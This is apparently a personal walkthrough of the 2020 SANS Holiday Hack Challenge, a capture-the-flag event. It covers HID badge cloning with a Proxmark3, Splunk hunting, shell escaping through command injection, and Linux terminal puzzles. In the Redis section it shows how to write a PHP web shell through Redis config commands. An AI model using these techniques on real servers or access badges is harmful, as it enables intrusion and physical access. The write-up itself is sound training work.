_Jump to: [top](#top) | [storyline](#storyline) | [objectives](#objectives) | [narrative](#narrative) | [takeaways](#takeaways)_

### Objective 5: Open HID Lock

This one has a few hints. 

This is the link referenced in this hint: . It's a HID/ProxCard Cheat Sheet.

I really enjoyed this talk. Very informative about HID technology and Proxmark capabilities!

One of the elves said Santa really trusts Shinny Upatree, so I'm going to go try to clone his badge with the Proxmark3…

Heading down to stand next to Shinny Upatree in front of the castle. When I'm standing next to him, I go into the Proxmark3 in my badge and enter the command `lf hid read`

Cool, now I have his Tag ID.
Now to go to the door upstairs and try to simulate this card. I'll stand in front of the keypad by the door.

And I'll put this command into the Proxmark3 in my badge, using Shinny's Tag ID: `lf hid sim -r 2006e22f13`



Tada! I'm in!

_Jump to: [top](#top) | [storyline](#storyline) | [objectives](#objectives) | [narrative](#narrative) | [takeaways](#takeaways)_

### Objective 6: Splunk Challenge

There are a few hints for this objective.

Here's the [talk](https://www.youtube.com/watch?v=qbIhHhRKQCw) in this first hint.

The [talk](https://www.youtube.com/watch?v=RxVgEFt08kU) in this second hint was helpful.

And of course, [Cyberchef](https://gchq.github.io/CyberChef/) is an awesome tool!

For the first answer I counted the distinct techniques listed in the indexes.

For the second answer I used the ones with that specific technique number.

I should note here that there are helpful hints in chat with Alice! 

Alice's [definition of a Splunk index can be found here](). 

Here's Alice's link for [atomic red team](https://github.com/redcanaryco/atomic-red-team). This is a really interesting tool!

Searching Atomic Red Team, I went to the page where it lists the atomic tests [by technique](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/index.md).

That registry key is the answer to question 3.

For question 4, I searched `index=attack OSTAP` and found 5 events, then pulled the timestamp from the first one.

Question 5 was interesting.

Looked up the github user and the audio project seems most likely.

So then I searched for audio on atomic red team:

Then used this information to search the event log in Splunk.
This is the search term I used: `index=T1123-win WindowsAudioDevice ProcessId`

And here is the ProcessId in the record details:

Question 6 specifically mentioned a multi-line batch file used by multiple techniques. This seems like some very specific, useful information to narrow it down.

First, I did a search in Splunk for `index=T* *.bat`

Discovery.bat seems to be the most popular

So I searched for Discovery.bat on  Atomic Red Team. 

And the final command of the file is `quser`



Alice gave a hint for question 7.

OK, so I searched Splunk using her search term: `index=* sourcetype=bro*`

In the Top 10 Values, there's `bro:X509:json` so I added that to the search.

`index=* sourcetype=bro* sourcetype="bro:x509:json"`

And there's the certificate number, first of the top 10! Here it is in the details of the record:

Now for the challenge question. Here's the info given in the chat with Alice:

[Cyberchef](https://gchq.github.io/CyberChef/) is definitely the encryption tool to try here. Alice's comment about RFC seems to point to RC4 encryption, but what about a key? I wonder if there was a hint in the talk. The very last thing he said was Stay Frosty, which had basically nothing to do with his specific talk, and definitely sounds like something Jack Frost would say. So I'll try that as the passphrase.

Well hello there, lollipop guild!

_Jump to: [top](#top) | [storyline](#storyline) | [objectives](#objectives) | [narrative](#narrative) | [takeaways](#takeaways)_

### Objective 7: Solve the Sleigh's CAN-D-BUS Problem

[This is the talk](https://www.youtube.com/watch?v=96u-uHRBI0I) referenced in the first hint.

I haven't tackled this challenge yet...

_Jump to: [top](#top) | [storyline](#storyline) | [objectives](#objectives) | [narrative](#narrative) | [takeaways](#takeaways)_

### Objective 8: Broken Tag Generator

There are a lot of hints for this objective!

I haven't tackled this challenge yet...

_Jump to: [top](#top) | [storyline](#storyline) | [objectives](#objectives) | [narrative](#narrative) | [takeaways](#takeaways)_

### Objective 9: ARP Shenanigans

`Jack Frost has hijacked the host at 10.6.6.35 with some custom malware.

Help the North Pole by getting command line access back to this host.

Read the HELP.md file for information to help you in this endeavor.

Note: The terminal lifetime expires after 30 or more minutes so be sure to copy off any essential work you have done as you go.`

I entered this command: 
`$ cat HELP.md | more`

It almost fit, but had to pipe the last line in...

This is way over my head, lol!

OK, hints!

Alabaster Snowball said:
> Welcome to the roof! Alabaster Snowball here.
I'm watching some elves play NetWars!
Feel free to try out our Scapy Present Packet Prepper!
If you get stuck, you can help() to see how to get tasks and hints.
Great job! Thanks!
Those skills might be useful to you later on!
I've been trying those skills out myself on this other terminal.
I'm pretty sure I can use tcpdump to sniff some packets.
Then I'm going to try a machine-in-the-middle attack.
Next, I'll spoof a DNS response to point the host to my terminal.
Then I want to respond to its HTTP request with something I'll cook up.
I'm almost there, but I can't quite get it. I could use some help!
For privacy reasons though, I can't let you access this other terminal.
I do plan to ask Santa for a hand with it next time he's nearby, though.
...

I stopped here, but hopefully I'll come back to it...

_Jump to: [top](#top) | [storyline](#storyline) | [objectives](#objectives) | [narrative](#narrative) | [takeaways](#takeaways)_

### Objective 10: Defeat Fingerprint Sensor

I haven't tackled this challenge yet...

_Jump to: [top](#top) | [storyline](#storyline) | [objectives](#objectives) | [narrative](#narrative) | [takeaways](#takeaways)_

### Objective 11a: Naughty/Nice List with Blockchain Investigation Part 1

[These are the tools](https://download.holidayhackchallenge.com/2020/OfficialNaughtyNiceBlockchainEducationPack.zip) linked in the Objective description.

I haven't tackled this challenge yet...

_Jump to: [top](#top) | [storyline](#storyline) | [objectives](#objectives) | [narrative](#narrative) | [takeaways](#takeaways)_

### Objective 11b: Naughty/Nice List with Blockchain Investigation Part 2

I haven't tackled this challenge yet...

_Jump to: [top](#top) | [storyline](#storyline) | [objectives](#objectives) | [narrative](#narrative) | [takeaways](#takeaways)_

---

## Elf Terminal Challenges

The elves throughout the castle asked for help with different challenges. Cranberry Pi terminals, lol!

Solving these challenges opened up additional dialogue with the elves, which included hints for challenges, so even though they were technically optional they were still a must! 

### Kringle Kiosk 
(Shinny Upatree)

Here is the [Command Injection link](https://owasp.org/www-community/attacks/Command_Injection 
) from the hint.



OK, considering the hint... and Shinny's comment:
> Be careful with that last one though. I heard someone say it's "ingestible." Or something...

And there's the hint - injectable! On the last one, which is the name badge.

[Here’s an article](https://www.sans.org/blog/escaping-restricted-linux-shells/) that was also helpful.

I'll start by putting in some of those special characters it's warning against and see what happens.

 

 
The `&` did something!
I noticed that it has syntax errors and different lengths of the & character, so maybe that first character is the escape. The hint says to escape with /bin/bash so I'll try to inject that command after the &...

Success!

_Jump to: [top](#top) | [storyline](#storyline) | [objectives](#objectives) | [narrative](#narrative) | [takeaways](#takeaways)_

### Unescape Tmux 
(Pepper Minstix)

Here is the [Tmux Cheat Sheet](https://tmuxcheatsheet.com) from the hint.  

Tmux is a completely new term for me, so a quick google search shows: 
> tmux is an open-source terminal multiplexer for Unix-like operating systems. It allows multiple terminal sessions to be accessed simultaneously in a single window. It is useful for running more than one command-line program at the same time.

OK let's try some of the tmux commands to get a feel for how it looks and how the sessions work…

Start with Show all sessions
`$ tmux ls`

Next let's try starting a new session with 
`$ tmux new`

When I started a new session then listed, there were 3 sessions open instead of two. Hmm...

Here is how to navigate between sessions from the Tmux cheat sheet:

So to move to the next session, I hit Ctrl + b then typed ) into the terminal, hit enter, and there was the bird!

_Jump to: [top](#top) | [storyline](#storyline) | [objectives](#objectives) | [narrative](#narrative) | [takeaways](#takeaways)_

### Linux Primer terminal 
(Sugarplum Mary)

> The North Pole 🍭 Lollipop Maker:
All the lollipops on this system have been stolen by munchkins. Capture munchkins by following instructions here and 🍭's will appear in the green bar below. Run the command "hintme" to receive a hint.

Looks like this Munchkin Wrangler at the bottom of the screen is where the Lollipops will gather.

Instructions and commands, I think I'm gonna like this one.

> Perform a directory listing of your home directory to find a munchkin and retrieve a lollipop!

`$ ls -la` because I like to see all the details sometimes...

> Find the munchkin inside the munchkin.

For this I used `cat` to view the contents of the munchkin file.

> Remove the munchkin.

The `rm` command removes the file.

> Print the present working directory.

This is what `pwd` is for.

 

I'm racking up the lollipops!

> Good job but it looks like another munchkin hid itself in your home directory. Find the hidden munchkin!

Interesting, when I `ls -la` again there's the new munchkin.

> Excellent, now find the munchkin in your command history.

I used the up arrow to navigate the command history and boom,



I don't remember typing that! Tricky, tricky.

> Find the munchkin in your environment variables.

I don't know much about environment variables, so I grabbed a hint here.

> The "env" command can be used to display environment variables. You may need to pipe "|" env output to "less" or "grep" (exit less with "q"): env | less.

OK so first I'll try using `env` by itself.

Looks like that did the trick.

> Next, head into the workshop.

Changing the directory here with 
`$ cd workshop`

> A munchkin is hiding in one of the workshop toolboxes. Use "grep" while ignoring case to find which toolbox the munchkin is in.

I'll try `$ grep munchin -i` here; the -i switch is to ignore case.
Hmm that didn't quite work... 

Looks like I needed the `.` instead of a filename to indicate the directory, and the -r switch to recursively search each file in the directory
`$ grep -ir "munchkin" .`

> A munchkin is blocking the lollipop_engine from starting. Run the lollippop_engine binary to retrieve this munchkin.

To run the file, start with `./`

Permission denied. Tried using `$ sudo ./lollipop_engine` but that also gave me a Permission denied error.
Hmm, I think I'll get a hint here.

> Make the binary executable by running "chmod 755 \<filename\>". Each number (7,5,5) represents (owner,group,everyone) and each is the sum of the desired permissions (4=read, 2=write, 1=executable). To start the program from the current directory run "./lollipop\_engine". A backup of this file is at /opt/lollipop_engine.

OK, change the permissions of the file. I can do that.

`$ chmod 755 lollipop_engine`
`$ ./lollipop_engine`

There's that troublesome munchkin!

I like the [Mr. Grinch music](https://holidayhackchallenge.com/2020/album/Ninjula%20-%20You're%20a%20maen%20one,%20Mr%20Grinch.mp3) here, it's a fun one while using the command line!

*I got a little engrossed in the tasks, and missed recording a few of the instructions here, but the gist was there was a blown fuse and to rename the fuse so it wasn't blown anymore. Then to create a link to fuse0 called fuse1, and make a copy of fuse1 and call it fuse2. I did make some notes about the link comand though, since it was new to me.*

> `ln` is a command-line utility for creating links between files. By default, the `ln` command creates hard links. To create a symbolic link, use the `-s` option. The `ln` command syntax for creating symbolic links is as follows:
`ln -s [OPTIONS] FILE LINK`

> Find the munchkin somewhere in /opt/munchkin_den.

Used `cd` to get to this new directory, the tried grep but it wasn't the right option. So I got a hint:
>"find /some/directory -iname '\*example\*'" would find any file with "example" in the name while ignoring case.

> Find the file somewhere in /opt/munchkin\_den that is owned by the user munchkin.
Trying
`$ find /opt/munchkin_den -user munchkin -iname '*munchkin*'`
didn't work... So I got a hint.

> "find\some\directory -user example" would find any directory owned by a user named "example".

OK duh, I was still looking for munchkin in the filename, but it says any file.

`$ find /opt/munchkin_den -user munchkin` did the trick.

> Find the file created by munchkins that is greater than 108 kilobytes and less than 110 kilobytes located somewhere in /opt/munchkin_den

Trying:
`find /opt/munchkin_den -user munchkin -size +108k -size -110k`

Why didn't this work?
Maybe use the * because if there are other users like munchkin1, munchkin2
Nope looks like * doesn't work in this context.
Time for a hint:

> "find /some/directory -size +5k -size -10k" would find files bigger than 5 kilobytes and smaller than 10 kilobytes.

Apparently the owner doesn't matter, munchkins are any users…
`find /opt/munchkin_den -size +108k -size -110k`

Lollipop Progress!

> List running processes to find another munchkin.

Started with `ps` but that doesn't seem to be what they wanted, so I added the all switch. Yep!
`ps -a` did the trick.

> The 14516_munchkin process is listening on a tcp port. Use a command to have the only listening port display to the screen.

Started with `netstat` to find the listening port, using the listening switch and the tcp switch.
`netstat -lt`

Then tried `$ nc 0.0.0.0 54321` to use netcat and it was a no go, so I asked for a hint.

> The "curl" command can be used to interact with a web service.

`curl` I should have remembered that one!

>Your final task is to stop the 14516_munchkin process to collect the remaining lollipops. 

Use the process tag on netstat to find the process id then kill the process.
`$ netstat -ltp`
`$ kill 12920`

All the lollipops!

_Jump to: [top](#top) | [storyline](#storyline) | [objectives](#objectives) | [narrative](#narrative) | [takeaways](#takeaways)_

### The Elf Code 
(Ribb Bonbowford)

I already have a basic understandin of JavaScript, but [JavaScript in 14 minutes - *by Jeremy Thomas*](https://jgthms.com/javascript-in-14-minutes/) looks like a great resource!

There are a few hints for this challenge as well.

This [JavaScript playground](https://playcode.io/) looks like another great resource.

#### About

There was a great "About" page with details on how to play *The Elf Code*. Here are the highlights:

> Munchkins have stolen all the lollipops from the North Pole and scattered them outside all of the entrances to KringleCon. Use your programming skills to collect all the lollipops and return to the entrance of KringleCon. Be on the lookout for munchkins or traps as they will cause you to have to start the level all over again!

> Use the console to type in JavaScript code to control your elf on the game window.

> To accomplish this, you will need to use elf commands such as elf.moveLeft(1) or elf.moveRight(2).
To find out all of the elf functions and or object related functions, you can click on the corresponding object in the help window. 

> Collect all of the Lollipops on the map and reach the End Goal found at the entrance of KringleCon.

> Be Careful! Munchkins could be roaming the map looking to challenge your JavaScript (JS) skills. You will have to restart if caught by a munchkin without first solving their JS challenge using elf.tell_munch(answer).
Note: You do not want to stand in the same square as the Munchkin when telling them an answer. Instead, you must simply be within 1 grid square in any direction (including diagonal).
Additionally, be careful to avoid Yeeter spring traps set by the munchkins all over the map, or you could find your elf yeeted off the map. Pits are also dangerous if their bridge is down. However, munchkins are notorious for not watching where they step and will fall into any pit with a downed bridge that lies in their path.
Obstacles such as barrels or rocks will block your elf from moving through its corresponding square.

> Levers can be turned off once your elf reaches the same square and submits the answer to its challenge using `elf.pull_lever(answer)`.
Solving a lever will trigger an effect somewhere on the map (like disabling a Yeeter trap or lifting the bridge over a pit).

> Solving Lever and Munchkin Challenges: Levers and Munchkins both have challenges associated with them. To view a challenge associated with these objects, you can click on the corresponding object from the game in the CURRENT LEVEL OBJECTS window. Clicking on the Lever or Munchkin in the CURRENT LEVEL OBJECTS window will trigger that object's associated Objective Window to be displayed.

> Once you are ready to execute your code, simply click the big green RUN button.

> The console log window displays all of the logged data from the game or from running code in the JavaScript console

OK, let's get started!

#### Level 1

#### Level 2

Program the elf to the end goal in no more than 5 lines of code and no more than 5 elf command/function execution statements in your code.

Clicking on the lever in current level obects:

`var sum = elf.get_lever(0) + 2
elf.moveTo(lever[0])
elf.pull_lever(sum)
elf.moveTo(lollipop[0])
elf.moveUp(10)`

Why doesn't this work?

This worked, not sure why it's different?

`var sum = elf.get_lever(0) + 2
elf.moveTo(lever[0])
elf.pull_lever(sum)
elf.moveLeft(4)
elf.moveUp(10)`

#### Level 3

`elf.moveTo(lollipop[0])
elf.moveTo(lollipop[1])
elf.moveTo(lollipop[2])
elf.moveUp(1)`

#### Level 4

`for (var i = 0; i < 2; i++) {
  elf.moveLeft(13)
  elf.moveUp(13)
  elf.moveLeft(13)
  elf.moveDown(13)
  }
elf.moveTo(lollipop[0])
elf.moveUp(10)`

That was too long…
8 lines when we need 7, but an ok number of elf statements…

Try this to make it fewer lines... Use this [JavaScript compression tool](https://jscompress.com/)

`elf.moveLeft(1)
for(var i=0;i<2;i++)elf.moveUp(13),elf.moveLeft(13),elf.moveDown(13),elf.moveLeft(3);
elf.moveUp(10)`

#### Level 5

`var value = elf.ask_munch(0)
var answer = value.filter(elem => typeof elem === 'number')
elf.moveTo(lollipop[1])
elf.moveTo(lollipop[0]) // it is within one square of the munchkin
elf.tell_munch(answer)
elf.moveUp(2)`

#### Level 6

`var value = elf.get_lever(0)
value.unshift('munchkins rule')
for (var i = 0; i < 4; i++) elf.moveTo(lollipop[i]);
elf.moveTo(lever[0])
elf.pull_lever(value)
elf.moveDown(1)
elf.moveLeft(6)`

That makes him run into the castle…
But oh, the elf falls into the pit! I didn't realize that.
New code:

`var value = elf.get_lever(0)
value.unshift('munchkins rule')
for (var i = 0; i < 4; i++) elf.moveTo(lollipop[i]);
elf.moveTo(lever[0])
elf.pull_lever(value)
elf.moveDown(3)
elf.moveLeft(6)
elf.moveUp(2)`

#### Oh hey, bonus levels!

I ran out of time and decided to put the bonus levels on hold. If I end up coming back to them, I'll detail it here!

_Jump to: [top](#top) | [storyline](#storyline) | [objectives](#objectives) | [narrative](#narrative) | [takeaways](#takeaways)_

### Dial-up 
(Fitzy Shortstack)

Fitzy Shortstack said he can't remember the handshake sequence to control the remote server.  

756-8347 is the phone number given by Fitzy, so let's check it out.

First I dialed the phone number into the phone, and it came back with the handshake sequence then hung up.

Clicking on the different links on the pink note, each link plays a different sound. I'm guessing that's how we generate the handshake sequence, through the links on this note.

Looking at the source code to see if it gives any hints about the sequence:

OK, based on the JavaScript this should be the handshake:
> baaDEEbrrrr
Aaah
WEWEWEwrwrrwrr
beDURRdunditty
SCHHHRRHHRTHRTR

756-8347

Try putting in the phone number then quickly hitting the sequence by clicking on the corresponding links on the pink note...

Success!

_Jump to: [top](#top) | [storyline](#storyline) | [objectives](#objectives) | [narrative](#narrative) | [takeaways](#takeaways)_

### Redis Bug Hunt 
(Holly Evergreen)

Holly Evergreen
> Hi, so glad to see you! I'm Holly Evergreen.
I've been working with this Redis-based terminal here.
We're quite sure there's a bug in it, but we haven't caught it yet.
The maintenance port is available for curling, if you'd like to investigate.
Can you check the source of the index.php page and look for the bug?
I read something online recently about remote code execution on Redis. That might help!
I think I got close to RCE, but I get mixed up between commas and plusses.
You'll figure it out, I'm sure!
...

This is the [link from the hint](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) with a step by step on RCE in redis.

At first I thought I would need to learn about redis, but really it looks like mostly if I use the curl command to get into the redis-cli there won't be a whole lot of redis I'll need to know? We'll see...

Objective: Check the source of the index.php page and look for a bug (basically view the file using cat)

Starting with `curl http:// localhost/maintenance.php?cmd=info`

There's a lot of output there... not sure if any of it is useful?

Holly mentioned getting mixed up between commas and plusses, maybe I need to use commas instead of spaces to get the right syntax in the redis-cli commands using the maintenance.php file.

So next I'll try that and see what I can find from the config file by using
`$ curl http:// localhost/maintenance.php?cmd=config,get,*`

There near the top, it's the password in plain text!
> requirepass
R3disp@ss

and at the bottom, it shows the IP address.

``$ redis-cli -h 127.0.0.1 -a R3disp@ss`
(-h means we're specifying the host IP address; -a means we're authenticating with a password)

Now looking at the hint link…
https://book.hacktricks.xyz/pentesting/6379-pentesting-redis

Looks like we need to run the following commands from the redis command line:

`config set dir /var/www/html`
This command sets the current directory to the directory where the web files are

`config set dbfilename redis.php`
This command assigns redis.php as the database file, which then can execute the php

`set test "<?php phpinfo(); ?>"`
This command places our php code into the database

`save
quit`

And more about what that does… [here's info about the phpinfo() function](https://www.gurock.com/testrail/docs/admin/howto/running-phpinfo)

Here is the php that I could use:

`set test "<?php echo file_get_contents('index.php'); system(); ?>`

Then use curl to access the redis.php file and execute commands that could show us the index.php source code...
This took a little trial and error, including that I forgot about the comma/plus hing... you can see my attempts in this screenshot:

Woohoo!
That was hard. I still don't really understand how redis could see the php in the test key through the database file…
But that php command for system(); is the one that made the difference, it is what gives you the shell when you curl

_Jump to: [top](#top) | [storyline](#storyline) | [objectives](#objectives) | [narrative](#narrative) | [takeaways](#takeaways)_

### Open Speaker Door 
(Bushy Evergreen) 

Hey, I've done this before!

That gave a lot of output… looking through it…

Bahaha

OK let's try it

Tada!

_Jump to: [top](#top) | [storyline](#storyline) | [objectives](#objectives) | [narrative](#narrative) | [takeaways](#takeaways)_

#### and turn on the lights

From Bushy:
>Hey, you want to help me figure out the light switch too? Those come in handy sometimes.
The password we need is in the lights.conf file, but it seems to be encrypted.
There's another instance of the program and configuration in ~/lab/ you can play around with.
What if we set the user name to an encrypted value?

My go-to is always start with cyberchef when I need to decode or decrypt something, so let me try that first.
No dice…

It says delete parts, so just delete the password?

It would've turned on the lights, lol

Ok Bushy says to change the username to an encrypted value. 
So …
OH!
If I put the password into the username spot, then run it, maybe it will give me the password where it says welcome back?

Bingo!

_Jump to: [top](#top) | [storyline](#storyline) | [objectives](#objectives) | [narrative](#narrative) | [takeaways](#takeaways)_

#### and get the vending machine working...

From Bushy:
> So hey, if you want, there's one more challenge.
You see, there's a vending machine in there that the speakers like to use sometimes.
Play around with ./vending_machines in the lab folder.
You know what might be worth trying? Delete or rename the config file and run it.
Then you could set the password yourself to AAAAAAAA or BBBBBBBB.
If the encryption is simple code book or rotation ciphers, you'll be able to roll back the original password.

OK it said to set the password as AAAAAAAA
So let's try that

OK how would that help me get the original password?

This is how…

AAAAAAAA = XiGRehmw
BBBBBBBB = DqTpKv7f

Are there patterns?

AAAABBBB = XiGRKv7f
BBBBAAAA = DqTpehmw
CCCCCCCC = Lbn3UP9W
ABBBBBBB = XqTpKv7f

EEEEEEEE = hxkr3zCn

aaaaaaaaaa = 9Vbtacpg9V
CandyCandy = LVEdQPpBOL

CandyCanes = LVEdQPpBw5
11111111111 = 2rDO5LkI2r

CandyCane1 = LVEdQPpBwr   Oh this is the one, woohoo!

I'll make a table to sort the values for each letter in each position.

|        | 1 | A | a | B | C | d | D | E | H | I | N | O | P | R | s | S | Y | z | Z | 5 |
|-------:|:---:|:---:|:---:|:---:|:---:|:---:|:---:|:---:|:---:|:---:|:---:|:---:|:---:|:---:|:---:|:---:|:---:|:---:|:---:|:---:|
| 1-L  C | 2 | X | 9 | D | L |   |   | h |   |   |   |   |   |   |   |   |   |   |   | 	 |																						
| 2-V  a | r | i | V | q | b |   |   | x |   |   |   | l |   |   | 	 |   |   |   |   |   | 													
| 3-E  n | D | G | b | T | n |   |   | k |   |   |   |   |   | S |   |   |   |   |   | 	 |										
| 4-d  d | O | R | t | p | 3 |   |   | r |   |   | I |   |   |   |   |   |   |   |   |   |															
| 5-Q  y | 5 | e | a | K | U |   |   | 3 |   |   |   |   |   |   |   |   | j |   |   |   |			
| 6-P  C | L | h | c | v | P |   |   | z |   |   |   |   |   |   |   |   |   |   |   |   |																								
| 7-p  a | k | m | p | 7 | 9 |   |   | C |   |   | Y |   |   |   | 	 |   |   |   |   |   | 										
| 8-B  n | I | w | g | f | W |   |   | n |   |   |   | r |   |   |   |   |   |   |   |   | 																				
| 9-w  e | 2 | X | 9 | D | 	 |   |   |   |   |   |   |   | s |   |   |   |   |   |   |   |  
| 10-r 1 | r | i | V | q |   | R | v |   |   |   |   |   |   |   | 5 | g |   | a | t | T |

C????????? = LVEdQPpBwr

And... I totally missed this hint! Looks like I followed the gist of it anyway.

_Jump to: [top](#top) | [storyline](#storyline) | [objectives](#objectives) | [narrative](#narrative) | [takeaways](#takeaways)_

### Snowball Game 
(Tangle Coalbox)



_Jump to: [top](#top) | [storyline](#storyline) | [objectives](#objectives) | [narrative](#narrative) | [takeaways](#takeaways)_

### Regex Toy Sorting 
(Minty Candycane)

Minty Candycane said:
> Hey there, KringleCon attendee! I'm Minty Candycane!
I'm working on fixing the Present Sort-O-Matic.
The Sort-O-Matic uses JavaScript regular expressions to sort presents apart from misfit toys, but it's not working right.
With some tools, regexes need / at the beginning and the ends, but they aren't used here.
You can find a regular expression cheat sheet here if you need it.
You can use this regex interpreter to test your regex against the required Sort-O-Matic patterns. 
Do you think you can help me fix it?
...

The [cheat sheet](https://www.debuggex.com/cheatsheet/regex/javascript) from this hint will be a great reference.

This [Regex checker](https://regex101.com/) will also be very helpful!

Here are the instructions:

Getting started, using the cheat sheet and checker:

